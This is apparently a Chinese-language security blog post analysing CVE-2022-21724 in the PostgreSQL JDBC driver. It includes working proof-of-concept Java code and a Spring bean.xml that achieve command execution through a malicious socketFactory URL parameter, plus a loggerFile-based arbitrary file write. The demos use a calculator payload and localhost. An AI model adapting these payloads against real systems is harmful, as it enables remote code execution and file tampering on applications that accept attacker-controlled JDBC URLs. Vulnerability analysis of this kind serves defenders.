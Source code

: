 # Java JDBC Attack-PostgresQL

  
  
&lt;!--more--&gt;  
## 0x01 PostgreSQL漏洞  
PostgreSQL的property也存在安全问题CVE-2022-21724  
在 PostgreSQL 数据库的 JDBC 驱动程序中存在一个安全漏洞。当攻击者控制 JDBC URL 或者属性时，使用 PostgreSQL 数据库的系统将受到攻击。  
PgJDBC根据`authenticationPluginClassName`、`sslhostnameverifier`、`socketFactory` 、`sslfactory`、`sslpasswordcallback`连接属性提供类型实例化插件实例。但是。驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致 RCE  
影响范围：  
　　9.4.1208 &lt;=PgJDBC &lt;42.2.25  
　　42.3.0 &lt;=PgJDBC &lt; 42.3.2  
这里主要记录两个点  
- socketFactory / socketFactoryArg 等property调用有参构造触发的RCE  
- loggerLevel / loggerFile 日志功能写文件  
## 0x02 漏洞分析&amp;POC  
pom.xml  
```xml  
&lt;!-- https://mvnrepository.com/artifact/org.postgresql/postgresql --&gt;  
&lt;dependency&gt;  
    &lt;groupId&gt;org.postgresql&lt;/groupId&gt;  
    &lt;artifactId&gt;postgresql&lt;/artifactId&gt;  
    &lt;version&gt;42.3.1&lt;/version&gt;  
&lt;/dependency&gt;  
&lt;!-- https://mvnrepository.com/artifact/org.springframework/spring-context-support --&gt;  
&lt;dependency&gt;  
    &lt;groupId&gt;org.springframework&lt;/groupId&gt;  
    &lt;artifactId&gt;spring-context-support&lt;/artifactId&gt;  
    &lt;version&gt;5.3.23&lt;/version&gt;  
&lt;/dependency&gt;  
```  
demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
import java.sql.SQLException;    
    
public class JDBC_Postgresql {    
    public static void main(String[] args) throws SQLException {    
        String socketFactoryClass = &#34;org.springframework.context.support.ClassPathXmlApplicationContext&#34;;    
        String socketFactoryArg = &#34;http://127.0.0.1:8080/bean.xml&#34;;    
        String jdbcUrl = &#34;jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=&#34;&#43;socketFactoryClass&#43; &#34;&amp;socketFactoryArg=&#34;&#43;socketFactoryArg;    
        Connection connection = DriverManager.getConnection(jdbcUrl);    
    }    
}  
```  
bean.xml  
```xml  
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;  
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;  
       xmlns:p=&#34;http://www.springframework.org/schema/p&#34;  
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans  
        http://www.springframework.org/schema/beans/spring-beans.xsd&#34;&gt;  
&lt;!--    普通方式创建类--&gt;  
   &lt;bean id=&#34;exec&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;&gt;  
        &lt;constructor-arg&gt;  
          &lt;list&gt;  
            &lt;value&gt;bash&lt;/value&gt;  
            &lt;value&gt;-c&lt;/value&gt;  
            &lt;value&gt;open -a Calculator&lt;/value&gt;  
          &lt;/list&gt;  
        &lt;/constructor-arg&gt;  
    &lt;/bean&gt;  
&lt;/beans&gt;  
```  
### **任意代码执行 socketFactory/socketFactoryArg**  
大概流程  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162316543.png)
通过大概流程就可以看出，直接看 sink 点，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162325438.png)
这里的`ctor`类和`args`参数均为可控。满足构造方法中有且只有一个 String 参数的类就可以满足条件。  
- org.apache.commons.jxpath.functions.ConstructorFunction  
- org.apache.commons.jxpath.functions.MethodFunction  
- java.io.FileOutputStream  
通过`CVE-2017-17485`实现 Spring Spel 执行任意命令或者利用 FileOutputStream 将任意文件置空  
### **任意代码执行sslfactory/sslfactoryarg**  
大概流程  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162327024.png)
和上面的漏洞形成方式一致，sink 点也类似  
### **任意文件写入loggerLevel/LoggerFile**  
Demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
import java.sql.SQLException;    
    
public class JDBC_Postgresql_File {    
    public static void main(String[] args) throws SQLException {    
        String loggerLevel = &#34;debug&#34;;    
        String loggerFile = &#34;test.txt&#34;;    
        String shellContent=&#34;test&#34;;    
        String jdbcUrl = &#34;jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=&#34;&#43;loggerLevel&#43;&#34;&amp;loggerFile=&#34;&#43;loggerFile&#43; &#34;&amp;&#34;&#43;shellContent;    
        Connection connection = DriverManager.getConnection(jdbcUrl);    
    }    
}  
```  
断点调试一下，依然是跟进到`org.postgresql.Driver#connect()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162333063.png)
进入到`setupLoggerFromProperties()`方法中  
通过`LOGGER_FILE`指定日志文件保存位置，没有进行校验，导致可以跨目录保存文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162337783.png)
利用了`setupLoggerFromProperties()`设定了相关的参数，再利用`LOGGER.log`保存了文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162339486.png)

---

> Author: N1Rvana  
> URL: http://localhost:1313/java-jdbc-attack-postgresql/  

